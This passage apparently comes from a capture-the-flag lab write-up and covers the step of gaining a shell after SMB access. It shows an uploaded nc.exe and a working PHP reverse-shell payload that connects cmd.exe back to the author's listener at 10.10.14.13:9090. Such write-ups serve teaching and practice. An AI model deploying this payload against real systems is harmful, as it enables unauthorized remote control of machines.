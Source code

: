 
### Step 6: Popping a Shell

At this point, we had SMB access. I used a simple reverse shell payload to attempt to gain command execution.

1. **Uploading Netcat**: First, I uploaded `nc.exe`.
    
    ![](Images/Pasted%20image%2020250316113905.png)
    
2. **PHP Reverse Shell Script**: I created a PHP reverse shell to call `nc.exe` and connect back to my machine.
    

```
<?php
// Command to execute nc.exe to connect back to 10.10.14.13 on port 9090
$command = 'nc.exe -e cmd.exe 10.10.14.13 9090';

// Execute the command
system($command);
?>
```

I uploaded this PHP script, which connected back to my netcat listener.

---

We successfully established a shell as the user `tyler`.

![](Images/Pasted%20image%2020250316114604.png)
